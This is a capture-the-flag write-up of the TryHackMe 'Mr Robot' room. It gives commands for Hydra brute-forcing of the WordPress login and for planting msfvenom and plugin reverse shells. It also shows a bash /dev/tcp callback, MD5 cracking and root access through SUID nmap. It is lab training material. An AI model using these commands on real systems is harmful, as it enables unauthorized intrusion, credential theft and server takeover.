# Mr Robot CTF

## General information

<h3>Difficulty:  </h3>

<h3> Operating system: Linux</h3> 

<h3> Resolution date: 06/14/2025 </h3>

<h3>MV link: <a href="https://tryhackme.com/room/mrrobot" target="_blank">Mr Robot CTF</a></h3>

### *Read the document in español* <a href="Mr_Robot_CTF.md">Mr Robot CTF</a>

## Recognition

TryHackme gives us the IP of the target machine 10.10.78.104

### Ping

```
ping -c 1 10.10.78.104
```

<p align="center"> 

</p>

**If the ttl=63 is Linux**

We will use nmap, with the following command:

```
sudo nmap -p- --open -sS -sC -sV --min-rate 2000 -n -vvv -Pn 10.10.78.104
```

<p align="center"> 

</p>


<div align="center">

| Open port | Service  | Version                          |
| --------- | -------- | -------------------------------- |
| 22        | ssh      | OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 |
| 80        | http     | Apache httpd                     |
| 443       | ssl/http | Apache httpd                     |

</div>

## Exploration

In the browser we enter the following URL

```
http://10.10.78.104:443/
```

<p align="center"> 

</p>

We add **HTTPS** to the URL, therefore:

```
https://10.10.78.104:443/
```

Investigating, these are the different paths that we can find associated with this protocol, but we did not find anything interesting.

<p align="center"> 

</p>

I want to know if there are more hidden paths in this protocol, so I will perform web fuzzing:

```
gobuster dir -u http://10.10.78.104/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```
<p align="center"> 

</p>

We are dealing with a WordPress website because it has paths **wp-content** , **wp-login** , and **wp-includes**

**Next, I'm going to investigate each path this command gave me:**

By typing **/login** I found **login.php**

```
https://10.10.78.104/wp-login.php
```

<p align="center"> 

</p>

Typing **/robots** I found something very interesting:

```
http://10.10.78.104/robots
```

<p align="center"> 

</p>

I type the following into the browser:

```
http://10.10.78.104/key-1-of-3.txt
```

<p align="center"> 

</p>

**We found our first flag**

Also, I find a dictionary

```
http://10.10.78.104/fsocity.dic
```
<p align="center"> 

</p>

### Below, I will explain two ways to get the username and password for Wordpress login.

### First form:

We need to intercept the login failure in WordPress. To do this, we'll use Burp Suite.

First, we need to have the following ready in our browser:

Settings - in the search engine (proxy) - Settings - Manual proxy configurations.

<p align="center"> 

</p>

In burp suite, we go to:

**Proxy - Intercept - Intercept on**

<p align="center"> 

</p>

Then in the browser, we enter the credentials incorrectly.

<p align="center"> 

</p>

The error is very important!! Then, in **burp suite**, you will have intercepted the page data:

<p align="center"> 

</p>

This traditional HTML form uses **Post**, therefore, the module that we will use in the **hydra** command to brute force it is **http-post-form**, on the other hand, we have to modify this line

```
log=robots&pwd=sdadas&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.195.102%2Fwp-admin%2F&testcookie=1
```
it must be changed to:

```
log=^USER^
pwd=^PASS^
F=Invalid username
```

Therefore, the modified line would be as follows:

```
log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.195.102%2Fwp-admin%2F&testcookie=1:F=Invalid username
```

Therefore, the command used in hydra would be:

```
hydra -L fsocity.dic -p robots 10.10.195.102 http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fmrrobot.thm%2Fwp-admin%2F&testcookie=1:F=Invalid username"
```

<p align="center"> 

</p>

Then, to get the password, the command has to vary a little:

On this line
```
log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.195.102%2Fwp-admin%2F&testcookie=1:F=Invalid username
```

I would only change the ending for

```
S=302
```
We use S=302 is used in wordpress because it means **successful**

Therefore the command in question would be:

```
hydra -l elliot -P fsocity.dic 10.10.224.56 http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.224.56%2Fwp-admin%2F&testcookie=1:S=302"
```

<p align="center"> 

</p>

**The bad thing is that it takes a long time to get the password, since the dictionary is veeeery long, it takes more than 15 minutes**

Don't forget to go to **Settings - in the search engine (proxy) - Settings - No proxy**. Otherwise, the page won't work.

<p align="center"> 

</p>

### Second form:

We have to visit the following link and go to the end:

```
http://10.10.78.104/license
```

<p align="center"> 

</p>

This is encoded in **base64**

**ZWxsaW90OkVSMjgtMDY1Mgo=**

The command I use to decode it is:

```
echo 'ZWxsaW90OkVSMjgtMDY1Mgo=' | base64 -d
```

<p align="center"> 

</p>

The username is Elliot
The password is **ER28-0652**

<p align="center"> 

</p>

## Exploitation

We can do it in two ways:

### First form

To use this WordPress we go to **appearance** - **editor** and go to **404 Template** (Error Page)

<p align="center"> 

</p>

Delete everything, then we create a malicious msfvenom file

```
msfvenom -p php/reverse_php LHOST=10.8.139.36 LPORT=443 -f raw > wordpress.php
```

Then, we copy all the content from **wordpress.php** and copy it into **404 Template** of Wordpress


<p align="center"> 

</p>

We give **update file**

We prepare the listening port on our Kali:

```
sudo nc -lvnp 443
```

Reload the 404 error page

```
http://10.10.17.188/404.php
```

<p align="center"> 

</p>

### Second form

Go to **plugins - Add new - upload plugin**

<p align="center"> 

</p>


In the kali we use the following commands:

```
cp /usr/share/webshells/php/php-reverse-shell.php /home/kali/Desktop
```

This is where the template we need to edit is located:
**/usr/share/webshells/php/php-reverse-shell.php**

Then we need to edit the file we brought to the desktop so WordPress can detect it:

<p align="center"> 

</p>

**It is very important to add what we have indicated because otherwise WordPress will not let us upload the plugin**

```
/*
Plugin Name: Reverse Shell
Plugin URI: http://shell.com
Description: gimme a shell
Version: 1.0
Author: me
Author URI: http://www.me.com
Text Domain: shell
Domain Path: /languages
*/
```

The following is used to prepare to reset the shell of the target machine in our Kali, in my case, it would be like this:

<p align="center"> 

</p>

```
$ip = '10.10.78.104'; 
$port = 444;       
```

**We save it in a folder and compress it in .zip**

<p align="center"> 

</p>

We activate the listening port:

```
nc -lvp 444
```
We activate the plugins

<p align="center"> 

</p>

Result:

<p align="center"> 

</p>

## We need to get a more stable connection

Therefore, in another terminal, we activate the listening port:
```
sudo nc -lvnp 4444
```

Then, in the recently opened session, we enter this command:

```
bash -c "sh -i >& /dev/tcp/10.8.139.36/4444 0>&1"
```
<p align="center"> 

</p>

### TTY

```
script /dev/null -c bash
```
**control z**

```
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```
### If the TTY doesn't work we have the Python alternative

As an alternative to the tty, we will use this command:

```
python -c "import pty;pty.spawn('/bin/bash')"
```

<p align="center"> 

</p>

-------------------------------------------------------

We go to /home/robot

<p align="center"> 

</p>

robot:c3fcd3d76192e4007dfb496cca67e13b

robot user
MD5-hashed password

**We can do it in two ways**

### First form

We go to this page: <a href="https://iotools.cloud/es/tool/md5-decrypt/" target="_blank"> Decrypt md5 </a>

<p align="center"> 

</p>

The password is abcdefghijklmnopqrstuvwxyz

### Second form

We use this command:

```
hashcat -m 0 md5.txt /usr/share/wordlists/rockyou.txt
```
**-m 0 -->** It means you are decoding md5\
**md5.txt** --> It is where we store the md5 hash

<p align="center"> 

</p>

--------------------------------

**LET'S NOT FORGET THAT WE HAVE THE SSH PORT OPEN**

```
ssh robot@10.10.17.188
abcdefghijklmnopqrstuvwxyz
```
<p align="center"> 

</p>

**Second flag obtained**

# Privilege Escalation

Realizamos el siguiente comando:

```
find / -perm -4000 2>/dev/null
```

<p align="center"> 

</p>

Then we visit this page: <a href="https://gtfobins.github.io" target="_blank">Gtfobins</a>

We discovered that it has a vulnerability with **nmap**, but it doesn't work with the gtfobins page. So we investigated online.

I find this page interesting: <a href="https://w0lfram1te.com/privilege-escalation-with-nmap" target="_blank">Alternative route</a>

<p align="center"> 

</p>

By running this command, we get root

```
nmap --interactive
!sh
```

<p align="center"> 

</p>

Then we do the following to reach the third flag

```
cd /root
ls
cat key-3-of-3.txt
```
<p align="center"> 

</p>

**Third flag achieved**


